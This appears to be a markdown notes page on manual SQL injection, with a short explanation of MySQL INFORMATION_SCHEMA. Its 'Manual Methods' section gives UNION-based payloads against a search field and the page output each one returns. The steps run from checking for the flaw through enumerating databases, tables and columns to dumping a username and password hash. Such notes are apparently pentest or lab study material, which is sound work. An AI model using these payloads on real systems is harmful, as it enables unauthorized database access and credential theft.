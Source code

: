 * [`sqlmap`](#sqlmap)
* [INFORMATION_SCHEMA](#information_schema)
  * [INFORMATION_SCHEMA Tables](#information_schema-tables)
* [Manual Methods](#manual-methods)
  * [check vulnerability](#check-vulnerability)
  * [enumerate fields of search query](#enumerate-fields-of-search-query)
  * [enumerate databases](#enumerate-databases)
  * [enumerate tables](#enumerate-tables)
  * [enumerate columns](#enumerate-columns)
  * [show data](#show-data)

# `sqlmap`

# INFORMATION_SCHEMA
Refs:
* <https://www.cmi.ac.in/~madhavan/courses/databases10/mysql-5.0-reference-manual/information-schema.html#schemata-table>

INFORMATION_SCHEMA provides access to database metadata.

Metadata is data about the data, such as the name of a database or table, the data type of a column, or access privileges. INFORMATION_SCHEMA is the information database, the place that stores information about all the other databases that the MySQL server maintains. Inside INFORMATION_SCHEMA there are several read-only tables. They are actually views, not base tables, so there are no files associated with them.
## INFORMATION_SCHEMA Tables
* <https://dev.mysql.com/doc/refman/8.0/en/columns-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/schemata-table.html>
* <https://dev.mysql.com/doc/refman/8.0/en/st-units-of-measure-table.html>

# Manual Methods
## check vulnerability
```
search=killer' or 1='1
```
## enumerate fields of search query
In burpsuite, go to repeater mode and keep on increasing the numbers till the fields of search query gets printed on the webpage
```
search=killer' UNION SELECT 1,2,3,4,5,6-- -
```
```
<h3>Search results </h3>
ID: 1<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate databases
### current database
```
search=killer' UNION SELECT database(),2,3,4,5,6-- -
```
```
<h3>Search results </h3> 
ID: Staff<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
### using INFORMATION_SCHEMA
```
search=killer' UNION SELECT SCHEMA_NAME,2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3> 
ID: information_schema<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: Staff<br/>Name: 2 3
<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/><br/>ID: users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email:
6<br/>
```
### all databases
```
search=killer' UNION SELECT GROUP_CONCAT(SCHEMA_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.SCHEMATA-- -
```
```
<h3>Search results </h3>
ID: information_schema,Staff,users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate tables
```
search=killer' UNION SELECT GROUP_CONCAT(TABLE_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA="Staff"-- -
```
```
<h3>Search results </h3> 
ID: StaffDetails,Users<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## enumerate columns
```
search=killer' UNION SELECT GROUP_CONCAT(COLUMN_NAME),2,3,4,5,6 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA="Staff" AND TABLE_NAME="Users"-- -
```
```
<h3>Search results </h3>
ID: UserID,Username,Password<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
## show data
```
search=killer' UNION SELECT GROUP_CONCAT(Username,":",Password),2,3,4,5,6 FROM Staff.Users-- -
```
```
<h3>Search results </h3>
ID: admin:856f5de590ef37314e7c3bdf6f8a66dc<br/>Name: 2 3<br/>Position: 4<br />Phone No: 5<br />Email: 6<br/>
```
